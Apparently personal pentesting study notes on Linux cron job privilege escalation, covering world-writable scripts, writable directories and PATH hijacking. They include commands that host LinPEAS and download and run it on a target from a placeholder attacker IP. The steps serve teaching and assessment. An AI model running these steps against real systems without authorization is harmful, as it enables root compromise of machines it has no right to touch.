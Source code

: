# crontabs

29/05/25

## Recall

- What is a cron job and where are they typically configured?
- Why can cron jobs lead to privilege escalation?
- How can writable scripts or directories be abused in scheduled tasks?
- What is the risk of using unqualified command names in cron jobs?
- How does LinPEAS help identify vulnerable cron jobs?

## Notes

### What it is

**Cron** is the task scheduling system in Unix/Linux environments, designed to automate repetitive tasks like backups, updates, or scans. A **cron job** is a command or script scheduled to run periodically — hourly, daily, weekly, etc.

These jobs can belong to either the system or individual users:

- `crontab -l` → lists user-specific cron jobs
- `/etc/crontab` → system-wide scheduled jobs
- `/etc/cron.d/`, `/etc/cron.daily/`, `/etc/cron.hourly/` → job directories used by the system

Since many cron jobs are executed by `root`, **misconfigurations** can lead to privilege escalation.

For example, if a cron job executes a script that is **writable by any user**, an attacker can inject malicious commands:

```sql
-rwxrwxrwx 1 root root 1234 /opt/backup.sh
```

Even if the file is read-only, a world-writable directory can allow file replacement:

```sql
drwxrwxrwx 2 root root /opt/
```

Another common misconfiguration is when the cron job calls an unspecific binary that relies on `$PATH`. If the attacker can inject their own version of the command in $PATH, it gets executed instead:

```sql
* * * * * root backup
```

If `backup` isn’t referenced with a full path, this can be hijacked.

### How to exploit it

To exploit a cron job vulnerability, you first need to identify it. While manual analysis is possible, it’s common to use automated tools like **LinPEAS**.

Host LinPEAS on your local machine:

```sql
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8000
```

Download and run it on the target machine:

```sql
wget http://<attacker-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Look for suspicious cron jobs during execution:

```sql
╔══════════╣ Interesting Writable Files owned by root or other users
╔══════════╣ World Writable Cron Files
╔══════════╣ Scheduled Cron Jobs
╔══════════╣ Analyzing Cron Jobs
```

These often highlight scripts or binaries with improper permissions being executed by root.

Once a vulnerable job is found, modify the script or insert a malicious executable in the path it uses, and wait for the cron daemon to trigger it.

## Summary

**Cron jobs** are scheduled tasks in Linux systems. If misconfigured, they can be exploited for privilege escalation — especially when executed by root and tied to writable files or ambiguous commands. Tools like LinPEAS help automate the discovery of such flaws. Once a weak cron job is identified, injecting or replacing the script can give the attacker code execution as root.